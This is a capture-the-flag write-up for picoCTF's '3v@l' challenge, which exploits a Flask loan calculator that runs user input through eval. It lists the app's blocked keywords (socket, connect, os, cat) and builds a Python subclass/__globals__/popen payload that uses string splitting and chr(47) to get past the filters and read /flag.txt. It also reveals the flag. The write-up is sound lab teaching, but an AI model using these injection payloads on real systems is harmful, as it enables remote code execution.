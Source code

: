 **Challenge:** 3v@l

**Level:** Medium

**Challenge Author:** Theoneste Byagutangaza

### Description: 
ABC Bank's website has a loan calculator to help its clients calculate the amount they pay if they take a loan from the bank. Unfortunately, they are using an eval function to calculate the loan. Bypassing this will give you Remote Code Execution (RCE). Can you exploit the bank's calculator and read the flag?


### Step-by-Step Walkthrough:
Upon opening the webpage, you are greeted by a website with a `Bank-Loan Calculator` and some interactive buttons

1. Analyze the Filters and Blacklists
2. Explored Python Object Chains
3. Enumerated Subclasses
4. Bypassed Blacklists with Dynamic String Construction
5. Executed Commands

#### Investigation
All good web page vulnerability inspections will generally comprise of two things:

1. Using the Web Page Inspector
2. Testing all the interactive elements

Let's open up an inspector panel and look at the source element. We see a hint there in some comments:

```
TODO
------------
Secure python_flask eval execution by 
    1. blocking malcious keyword like os,eval,exec,bind,connect,python,socket,ls,cat,shell,bind
    2. Implementing regex: r'0x[0-9A-Fa-f]+|\\u[0-9A-Fa-f]{4}|%[0-9A-Fa-f]{2}|\.[A-Za-z0-9]{1,3}\b|[\\\/]|\.\.'
```

We learn some things:

```
1. The calculator is being run as a python_flask
2. They want to block all the malicious keywords
* os
* eval
* exec
* bind
* connect
* python
* socket
* ls
* cat
* shell
3. The regex also blocks certain blocks, including
* Hex (0x...)
* Unicode (\u....)
* Percent-encoding (%..)
* Dots followed by 1-3 alphanumerics (.[A-Za-z0-9]{1,3})
* Slashes and backslashes (/, \)
* Double dots (..)
```

It's good to test things, just in case. I tested all of the keywords above just on their own and it seems they did block those. However, as we've learned in other challenges, blacklisting is a bad idea as there's always another way to represent things and you might miss something, providing false confidence in your security.

##### Note - Simple Solution
After solving it, I watched some walkthroughs and I definitely made it a lot more complicated! This can be solved pretty directly with the following code. I even had the thought to initially try other functions not blacklisted, but never pursued it. However, the method I used to solve it helped me learn a lot about python classes, which may be useful for later challenges
<details><summary>HINT</summary>
    <pre>
    open(chr(47)+'flag.'+'txt').read()
    </pre>
   </details>

#### Investigation - Testing Injections
Reviewing this [site](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection) we can run through some test injections and we quickly see this is not the way to go. 

#### Learning - Python Classes
__class__ is a special attribute in Python that refers to the class of an object. It allows you to access the type (class) of any instance.

Example:
```
x = 5
print(x.__class__)  # Output: <class 'int'>
```

Furthermore, `().__class__` in Python returns the class of an empty tuple object, which is `<class 'tuple'>`. We could use any object here, but we'll use a tuple to access its base classes and their subclasses.

#### Investigation - Subclasses

Our first goal will be to get a list of all subclasses. Index into this list to find classes which can import `os` via `__init__.__globals__`, then use commands such as `cat` and `ls` in string form.

Since `os` is blacklisted, but `bracket notation` is not, our goal is to use the following:

`().__class__.__bases__[0].__subclasses__()[<index>].__init__.__globals__`

where `<index>` is the index of our class that has the method `__globals__`

* `__class__`: a special attribute in Python that refers to the class (type) of an object. It allows you to access the object's type and its class-level attributes and methods.
* `__bases__`: All new-style classes in Python (which is everything in Python 3) have an attribute that lists their base classes.
* `__subclasses__`: A special method in Python that, when called on a class, returns a list of all classes that directly inherit from it.
* `__init__`: A special method in Python classes, known as the constructor. It is automatically called when a new instance of the class is created, and is used to initialize the object’s attributes.
* `__globals__`:  A special attribute of Python function objects. It is a dictionary containing the global variables that were accessible in the module where the function was defined.

To find our index, let's list all the classes and subclasses with the following:

`().__class__.__bases__[0].__subclasses__()`

This returns a "blank" list, which seems to be sanitized output for security reasons. We know the subclasses exist though! So we still learned something.

We can try to print all the class names into a list:

`[c.__name__ for c in ().__class__.__bases__[0].__subclasses__()]`

But we want the index as well, so let's add that in:

`[(i, c.__name__) for i, c in enumerate((()).__class__.__bases__[0].__subclasses__())]`

#### Investigation - Globals
There! Now that we know we can iterate, let's find a class that includes `__globals__`

`[i for i, c in enumerate((()).__class__.__bases__[0].__subclasses__()) if hasattr(c.__init__, '__globals__')]`

But now we get an error, `ls` is blocked! We aren't using `ls`, so the system must be checking that `ls` exists as any sequence of characters. Here we see that `globals` is the issue. We'll need an alternative method to represent that. Since `globals` is a string, lets just split it:

`[i for i, c in enumerate((()).__class__.__bases__[0].__subclasses__()) if hasattr(c.__init__, '__global'+'s__')]`

and we get a big long list of valid indexes! For simplicity, we'll just use index `80`.

##### Note
not all indexes are equal here, some will be simpler to implement than others. 80 turned out to be fairly straightforward

#### Investigation - Import
Inputting `80` into our index:

`().__class__.__bases__[0].__subclasses__()[80].__init__.__globals__`

But this throws an error for `globals` again, let's use `getattribute()` instead. `__getattribute__` is a special method in Python that is called whenever an attribute of an object is accessed. It allows you to customize or control how attribute access works for instances of a class.

`().__class__.__bases__[0].__subclasses__()[80].__init__.__getattribute__('__global'+'s__')`

now we need the to import `os`, but we currently have a dictionary object. Let's use the `import` function

`().__class__.__bases__[0].__subclasses__()[80].__init__.__getattribute__('__global'+'s__')['__import__']('o'+'s').popen('l'+'s').read()`

Score! We can use our commands again. Let's check out what we have. Remember that `..` is a blacklisted sequence, so we need to split them up when we use them.

Thus we can see that the flag is located one directory above! Now let's use `cat`, split of course. Again, recall that there is regex checking for any sequence with a `.` and `1-3 characters` following. Split up your command appropriately:

`().__class__.__bases__[0].__subclasses__()[80].__init__.__getattribute__('__global'+'s__')['__import__']('o'+'s').popen('ca'+'t '+'/flag'+'.'+'txt').read()`

Ah, of course, the '/' is also blacklisted. This is where we'd want to use `chr`.

#### Learning - chr
`chr` is a built-in Python function that returns the character corresponding to a given Unicode (ASCII) integer value.

Example:
```
chr(65)   # Returns 'A'
chr(97)   # Returns 'a'
chr(47)   # Returns '/'
```
Replace `/` with chr(47) as follows:

`().__class__.__bases__[0].__subclasses__()[80].__init__.__getattribute__('__global'+'s__')['__import__']('o'+'s').popen('ca'+'t '+chr(47)+'flag'+'.'+'txt').read()`

and we have our flag!

<details><summary>Flag</summary>
    <pre>
    picoCTF{D0nt_Use_Unsecure_f@nctions6798a2d8}
    </pre>
   </details>